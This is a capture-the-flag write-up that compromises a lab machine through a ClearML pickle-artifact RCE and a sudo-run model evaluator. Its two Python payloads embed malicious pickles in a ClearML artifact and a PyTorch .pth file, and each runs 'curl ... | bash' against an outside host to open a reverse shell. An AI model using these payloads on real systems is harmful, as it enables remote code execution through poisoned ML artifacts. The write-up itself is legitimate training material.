We only have port 22 and 80 open.
3 subdomains, app, chat and files. This machine is going to have a TON of enumeration.

App subdomain is the default page for the website which contains a sign in page. Entering our name allows us to “sign in”.


Files subdomain seems to be nothing much.

Chat subdomain is a login for rocket chat which ive seen a couple times before. We can create an account and login.

Chad Jippity is the name of an admin on rocketchat
Shell as Jippity
On the main webpage we can create api access keys which shows us yet another subdomain called api

Following the steps above we can setup Clearml and upload pickle files.
There is a script being ran automatically every 60 seconds by Chad called “review_tasks”. This is looking at all projects in "Black Swan" and if they have the “review” tag and its opening them and then closing and deleting the task. I am almost certain this is how we will get a reverse shell.


def main():
review_task = Task.init(project_name="Black Swan",
task_name="Review JSON Artifacts",
task_type=Task.TaskTypes.data_processing)
# Retrieve tasks tagged for review
tasks = Task.get_tasks(project_name='Black Swan', tags=["review"], allow_archived=False)
Looking up ClearML there is a very recent CVE with RCE. This guide isnt very great but with a bunch of troubleshooting we can get a working payload.
https://hiddenlayer.com/research/not-so-clear-how-mlops-solutions-can-muddy-the-waters-of-your-supply-chain/
I spent a lot of time troubleshooting this and trying to get help with ChatGPT but it was no help. I didnt realize we had to call the “Command” function twice which is what this line at the bottom of the code does artifact_object=command.
import pickleimport osfrom clearml import Task
class RunCommand: def __reduce__(self): return (os.system, ('curl http://10.10.14.32:80/shell.sh | bash',))
command = RunCommand()
# Initialize the ClearML tasktask = Task.init(project_name='Black Swan', task_name='pickle_artifact_upload', tags=["review"], output_uri=True)
# Upload the dictionary as an artifacttask.upload_artifact(name='pickle_artifact', artifact_object=command, retries=2, wait_on_upload=True)
The script will open this file executing it and we will get a reverse shell.
Step 1 - Create a file with the code above and run it. This will create a task and upload it to the website.

Step 2 - Wait for the clean up script to run which executes our script giving us a shell.

Privileged Escalation to Root
I then add our SSH key on the machine so we can ssh in as Jippity

We can run /usr/bin/evaluate_model /models/*.pth as root

I looked into generating our own pth file but it also had to be converted to a model dataset using CIFAR-10 which wasnt super easy to do. Instead I decided to copy the working demo model from /models to our own machine. Then I used chatgpt to create a python script to open the pth file, add our reverse shell command and save it as a new pth file keeping the dataset the same. It did require some editing to get it to work as ChatGPTs script had some errors.
Step 1 - Copy the demo_model.pth file from the machine. We can startup a simple python webserver on the machine and download it to our own machine.

Step 2 - Run the script to open the dataset and inject our reverse shell and save a new dataset as pwn.pth.
python script
import torchimport os
# Define a malicious payloadclass ReverseShellPayload: def __reduce__(self): return (os.system, ('curl http://10.10.14.32:8000/shell.sh | bash',))
# Load the existing modelmodel = torch.load('demo_model.pth')
# Inject the malicious payloadmodel['reverse_shell'] = ReverseShellPayload()
# Save the modified modeltorch.save(model, 'pwn.pth')

Step 3 - Upload pwn.pth to the /models directory and run it as sudo. This has to be done quickly as there is a script cleaning up this directory.

Now in my case I just had the script reach back to our machine with curl and pipe the shell into bash but any command should work as this is ran by root.
We are root.
